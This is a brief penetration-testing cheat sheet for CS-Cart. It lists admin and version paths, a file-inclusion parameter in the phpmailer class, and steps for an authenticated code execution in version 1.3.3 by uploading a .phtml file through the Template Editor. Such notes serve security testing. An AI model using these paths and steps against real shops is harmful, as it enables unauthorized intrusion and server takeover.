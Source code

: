 # CS Cart

## Interesting Paths

```bash
# version
/admin.php?version

# login page
/admin.php
```

## LFI / RFI

```bash
/classes/phpmailer/class.cs_phpmailer.php?classes_dir=<>
```

## v1.3.3 RCE (Authenticated)

* https://www.exploit-db.com/exploits/48891

```bash
# upload .phtml under Template Editor
# invoke at /skins/FILE.phtml
```